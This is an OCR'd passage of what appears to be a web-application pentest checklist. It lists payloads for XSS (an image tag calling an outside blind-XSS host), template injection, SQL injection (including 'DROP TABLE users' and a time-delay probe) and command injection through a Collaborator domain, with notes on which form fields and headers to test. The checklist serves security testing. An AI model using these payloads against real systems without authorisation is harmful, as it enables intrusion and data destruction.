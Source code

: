 <img src="//me.xss.ht">

Note: Test in first/last names, password fields, and user-agent headers.

3. Server-Side Template Injection (SSTI)

[ ] SSTI Through Email Address:

Payloads:

"<%= 7 * 7 %>"@gmail.com

me+(${{7*7}})@gmail.com

Note: Test these payloads in email addresses, usernames, first/last names, and password fields.

[ ] SSTI Through Fields:

Payloads:

{{7*7}}, {7*7}, ${{7*7}}

Note: Test these payloads in first name, last name, and username fields.

[ ] SSTI Through Reflection:

Payload: <% (to check for reflection in email body)

Note: If <% is reflected, try injecting <%= 7 * 7 %> for SSTI.

4. SQL Injection (SQLi)

[ ] SQLi Through Email Address:

Payloads:

"' OR 1=1 -- '"@gmail.com

"me); DROP TABLE users;--"@gmail.com

Note: Test these payloads in email addresses, usernames, first/last names, and password fields.

[ ] SQLi Through User-Agent:

Payload: Mozilla/5.0' AND '1' = '2

Note: Test this in the user-agent header.

[ ] Time-Based SQLi:

Payload: ";WAITFOR DELAY '0.0.20'--

Note: Test this in the X-Forwarded-For header.

5. Command Injection

[ ] Command Injection:

Payload: email=me@whoami.id.collaborator.net

Note: Use Burp Collaborator and monitor for back-end information or internal IPs.

6. Authentication Bypass

[ ] Company Email Address Bypass:
